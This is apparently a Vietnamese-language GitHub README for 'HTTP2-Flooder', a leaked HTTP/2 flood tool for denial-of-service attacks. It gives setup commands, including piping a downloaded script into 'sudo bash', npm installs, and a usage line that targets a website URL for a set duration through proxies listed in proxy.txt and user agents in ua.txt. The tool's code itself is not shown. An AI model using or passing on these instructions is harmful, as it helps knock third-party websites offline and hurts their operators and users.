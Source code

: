 # HTTP2-Flooder

Trình ngập http2 mới, bị rò rỉ vì nhà phát triển cho biết tập lệnh của anh ấy tốt hơn tập lệnh của tôi

```
curl -sL https://deb.nodesource.com/setup_16.x | sudo bash - sudo apt -y install nodejs
```
```
npm i http http2 crypto tls
```
---------------------------------------------------------------

>***node tls.js https://website.com 120***

Đặt proxy HTTP bên trong proxy.txt và tác nhân người dùng bên trong ua.txt
